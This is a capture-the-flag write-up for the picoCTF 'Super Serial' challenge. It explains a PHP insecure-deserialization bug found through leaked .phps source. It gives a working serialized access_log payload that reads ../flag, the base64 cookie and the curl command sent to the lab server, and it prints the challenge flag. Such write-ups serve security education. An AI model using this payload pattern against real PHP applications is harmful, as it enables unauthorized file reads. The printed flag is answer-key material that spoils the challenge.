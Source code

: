 
# PICOCTF - Super Serial


### Description:
> Try to recover the flag stored on this website http://mercury.picoctf.net:3449/
### Solution:
1. The above website redirect us to a page which allows us to login using a username and password. After some reconnaissance we can see that `robots.txt` has some interesting information.
```
User-agent: *
Disallow: /admin.phps
```

2. It shows that `admin.phps` is disallowed. `phps` extension is different from `php` extension as the latter shows the execution of the php code while the former only shows the HTML representation of the php code.

More information can be accessed at `index.phps`:

```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
3. Nothing is really interesting here except `cookie.php`:

```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```
and `authentication.phps`
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

4. The exploit is in this code block

```php 
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

This is a [deserialization vulnerabilities](https://portswigger.net/web-security/deserialization). We can see that any object stored in `login` cookie will be unserialized and pass onto `try` block where it will be tested `is_admin` or `is_guest`.

From the hint, we know that our flag is in `../flag` ,but we need to print it out. The above block of code shows that if our object is neither guest or admin, it will print out `$perm`, which is our solution.

Therefore, we only need to serialize our `access_log` object, which looks like this `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`. For more information on how this syntax actually work, visit [this medium article](https://l.facebook.com/l.php?u=https%3A%2F%2Fmedium.com%2Fswlh%2Fexploiting-php-deserialization-56d71f03282a%3Ffbclid%3DIwAR2lIRaZ1oX4ipHxNHFC29arCtw4qFwuAH881BC8RGgkrw6p60m85i_sj24&h=AT1sdTPhl8StwAA7-iIgJD8YQgqTXq6pwevovfc7AvamFxFPbaU5ELg5feywhelmdDl3WIlAURhFugdQnfTZFTOUUWlNEklC-0W-OR3sJD9MPr1NU4jVUbKkLtFgN2dmzXejbA).

We need to insert this syntax onto the cookie of `authentication.php`, but our cookie must be base64, therefore, we need to encode it as: 
`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`.

We can use cURL to access our flag direcly via: `curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"`

This will print the error and the flag:
```
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```





## Flag
```
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```
